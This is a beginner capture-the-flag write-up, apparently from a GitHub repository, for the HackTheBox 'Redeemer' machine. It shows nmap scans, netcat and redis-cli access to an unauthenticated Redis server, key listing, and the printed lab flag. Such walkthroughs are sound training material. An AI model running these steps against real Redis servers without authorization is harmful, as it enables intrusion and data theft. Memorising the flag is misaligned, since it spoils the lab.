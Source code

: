 ## Redeemer HackTheBox
### Room Description:
cool room about redis. I've never worked with it. but let me tell you something, you should work with it. 

Key Features:
- Network enm
- Redis
- redis-cli

----

#### First Step: `Network Enum`
First thing first. Run Nmap to find *what's up*:
```bash
nmap -A -sV --privileged -T5 10.129.112.191 -p- -O -sC -v
```
Result:
```terminal
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```
it has **`Redis`** running on port `6379`. It's time to find exploit for this version.

#### Second Step: `Finding my way in`
Now as we know the service and the version, we will try to find relative exploit for this.

I've found a Nmap command to get more info about the server: 
```bash
nmap --script redis-info -sV -p 6379 10.129.112.191 -v -T4
```
After running a scan I got this:
```terminal
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7 (64 bits)
| redis-info: 
|   Version: 5.0.7
|   Operating System: Linux 5.4.0-77-generic x86_64
|   Architecture: 64 bits
|   Process ID: 749
|   Used CPU (sys): 1.645416
|   Used CPU (user): 1.207701
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 839.48K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.14.6
```
Nice. Now it's time to connect with the server. We can do it in 2 different way:

1. NetCat:
   1. ` nc -vn 10.10.10.10 6379`
2. redis-cli:
   1. `redis-cli -h 10.10.10.10`
   > if it's not installed: `sudo apt-get install redis-tools`

I will use **`redis-cli`** cause `nc` doesn't offer necessery help for command. So if you connect using `nc`, you will not be able to use `help`.

#### Third Step: `Getting what we need`
As we got into the server. Now it's time to find the flag. I used [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) page to find necessary commands.

`Let's see what we can do:`

First we have to see what's inside the database. for that we can use the command **`INFO`**<br>
`INFO keyspace` -> this will retrun the database availabe on the server. In our case, we will get:
```terminal
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
Now we will view what are the keys of `db0`. For that we have to select it first:<br>
`SELECT 0`<br>
the view the keys:<br>
`KEYS *`<br>You will have
```terminal
1) "numb"
2) "temp"
3) "stor"
4) "flag"
```
To view each key, use: `GET <key>`<br>
*e.g:* we will get the `flag`: `GET flag`
```terminal
10.129.112.191:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
```
That's how you do it.
